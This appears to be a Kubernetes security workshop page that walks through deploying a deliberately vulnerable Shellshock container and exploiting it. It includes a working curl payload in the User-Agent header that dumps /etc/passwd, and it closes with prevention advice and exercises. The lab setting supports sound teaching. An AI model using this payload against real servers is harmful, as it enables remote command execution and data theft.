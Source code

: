 # A compromised pod

In this section we deliberately introduce a container image with a known vulnerability so that you can enjoy the experience of exploiting it!

## Run a server vulnerable to Shellshock

We're using a container with [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), a vulnerability in `bash` that allows an attacker to remotely execute commands. To make it really easy, we're providing a Helm chart that installs the vulnerable deployment. DO NOT RUN THIS IN A REAL CLUSTER!

```
helm install shellshockable https://lizrice.github.io/shellshockable/shellshockable-0.1.0.tgz
```

This will run a deployment with a single pod. It might take a few seconds to pull the image so check that it's up and running (your pod name will be different):

```
$ kubectl get pods
NAME                             READY   STATUS    RESTARTS   AGE
shellshockable-d5b7d44b4-9rpzd   1/1     Running   0          70s
```

In a separate terminal window, run port forwarding so we can make curl requests to this pod. This maps localhost port 8081 to the pod's port 80.

```
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

You can now use curl (or a browser) to view the web service running on this pod. For example, if you open [localhost:8081](localhost:8081) in your web browser, you'll see the Apache2 default welcome page. There is also a [script](https://github.com/lizrice/shellshockable/blob/gh-pages/cgi-bin/shockme.cgi) that will return the words "Regular, expected output" at the address [localhost:8081/cgi-bin/shockme.cgi](localhost:8081/cgi-bin/shockme.cgi).

If you look at the source for the [script](https://github.com/lizrice/shellshockable/blob/gh-pages/cgi-bin/shockme.cgi) you'll see that it's executed using `bash`. This container is using a compromised version of `bash` with the Shellshock vulnerability, that an attacker can exploit to execute commands.

First let's see the regular text is returned if we use `curl` to make the HTTPS request:

```
$ curl localhost:8081/cgi-bin/shockme.cgi
Regular, expected output
```

You've seen the web server return content as expected. Now it's time to act like an attacker and exploit the Shellshock vulnerability.

## Exploit the vulnerability

You can exploit Shellshock by passing a User-Agent header on the `curl` request with the `-A` parameter. This gets expanded as an environment variable by `bash`, and because of the Shellshock vulnerability, it can be used to execute arbitrary commands. For example

```
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

Instead of running the CGI script as normal, this reponds to the HTTP request with the contents of `/etc/passwd`!

## Preventing this attack

The safest way to prevent this attack is to ensure the vulnerable version of `bash` isn't included in the container image before it's deployed. This is done with [**container image scanning**](scanning.md).

Image scanning can only detect known, published vulnerabilities. You can also limit the likely damage of as-yet-unknown compromises by configuring containers to run more securely and using [**policies**](policies.md) to enforce safer configuration.

## Optional questions and exercises

If you have the time and interest, here are some additional things you might like to think about.

1. Try running some other commands as if you were an attacker! For example, you could
    - find out what environment variables are set
    - see what user ID you're running as
    - explore the contents of the filesystem to see what is available
1. Where does this `/etc/passwd` file come from - the host or the container?
1. What would happen if you mounted files from the host into this container?
1. Take a look at the [Dockerfile](https://github.com/lizrice/shellshockable/blob/master/Dockerfile) that builds the container image used in this example. It deliberately installed an old, vulnerable version of `bash`.
1. Try running a deployment with an up-to-date version of `apache2` without the vulnerability, and check that you can't exploit it in the same way.

